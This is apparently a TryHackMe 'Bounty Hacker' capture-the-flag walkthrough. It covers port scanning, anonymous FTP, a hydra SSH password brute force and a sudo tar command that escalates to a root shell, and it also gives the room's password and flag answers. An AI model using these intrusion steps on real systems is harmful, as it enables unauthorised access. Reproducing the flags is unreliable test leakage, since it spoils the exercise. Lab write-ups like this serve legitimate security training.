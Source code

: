 # [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)
You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

## Task 1 - Living up to the title.

### Question: Deploy the machine.
```
Answer: No answer needed
```
---
### Question: Find open ports on the machine
* Begin by scanning the network

`nmap -sV -sC [IP address]`
* Open ports are `ftp`, `ssh`, and `http`
```
Answer: No answer needed
```
---
### Question: Who wrote the task list?
* Anonymous FTP access is allowed

`ftp anonymous@[IP address]`
* If the error `Entering Extended Passive Mode` appears, Ctrl+C and try:
  * `ftp anonymous@[IP address]`, then
  * `passive`
* Found 2 files:
  * `locks.txt`
    * Looks like potential usernames or passwords
  * `task.txt`
    * Reading the file, we discover who wrote it
```
Answer: lin
```
---
### Question: What service can you bruteforce with the text file found?
* Hint tells us it's on port 22
```
Answer: ssh
```
---
### Question: What is the users password?
* We can use hydra to try to brute force the password with the information we obtained

`hydra -l lin -P locks.txt ssh://[IP address]`
```
Answer: RedDr4gonSynd1cat3
```
---
### Question: user.txt
* With these credentials, we can ssh into the server

`ssh lin@10.10.112.195`
* We find the `user.txt` file in the `Desktop` directory
```
Answer: THM{CR1M3_SyNd1C4T3}
```
---
### Question: root.txt
* We can't `cd` into the `root` directory
* Running `sudo -l` reveals that we can use ` (root) /bin/tar` command
* [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) can help us escalate privileges using `tar`
* Let's try this:

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
* We have a shell and `whoami` shows that we're `root`
* Navigate to the `root` directory and view the contents of `root.txt`
```
Answer: THM{80UN7Y_h4cK3r}
```